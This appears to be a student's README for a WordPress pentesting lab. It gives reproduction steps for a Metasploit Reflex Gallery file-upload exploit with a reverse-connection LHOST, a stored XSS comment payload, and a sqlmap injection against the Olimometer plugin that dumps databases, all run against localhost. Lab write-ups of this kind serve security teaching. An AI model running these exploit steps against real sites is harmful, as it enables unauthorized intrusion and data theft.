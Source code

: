 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. Arbitrary File Upload
  - [x] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [x] GIF Walkthrough: <img src="arbitrary_file.gif">
  - [x] Steps to recreate: 
	1. ```server postgresql start```
	2. ```msfdb init```
	3. ```msfconsole```
	4. At this point, you will be inside of the Metasploit console
	5. ```db_status``` (If it reads Connected to msf, you're good to go)
	6. ```search Reflex```
	7. ```use 0```
	8. ```set RHOST 127.0.0.1```
	9. ```set RPORT 8080```
	10. ```set LHOST 192.168.65.3``` (Different in some cases, it's eth0 under ifconfig)
	11. ```exploit``` (this will gain you access to the file system to edit php files)
	
### 2. XSS Comment (Authorized)
  - [x] Summary: 
    - Vulnerability types: XSS using comments that are authorized on WP
    - Tested in version: 4.1
    - Fixed in version: 4.1.26
  - [x] GIF Walkthrough: <img src="XSS_Comment_Scripting.gif">
  - [x] Steps to recreate: 
	1. **Login to Admin account on WordPress**
	2. **Find a comment to post on**
	3. **Post a javascript tag in the comment box**
	4. Example: ```<script>alert('XSS!');</script>```
	
### 3. SQL Injection Olimometer_id Plugin
  - [x] Summary: 
    - Vulnerability types: SQL Injection
    - Tested in version: 2.56
    - Fixed in version: ***Not Fixed as of currently***
  - [x] GIF Walkthrough: <img src="SQL_Injection.gif">
  - [x] Steps to recreate: 
	1. Download **Olimometer Plugin** for Word Press
	2. Run SQL map with this command:
		- ```sqlmap -u http://localhost:8080/wp-content/plugins/olimometer/thermometer.php?olimometer_id=1 --dbs --threads=5 --random-agent --no-cast```
	3. It should dumb two databases ```exampldb``` and ```information_schema```

## Resources

- [WordPress Scan] (https://wpscan.com)

GIFs created with Screen To GIF

## Notes

**DO NOT FOR THE LOVE OF GOD UPDATE WORDPRESS WHEN DOING THIS UNIT, IT WAS A PAIN TO UNDO.**
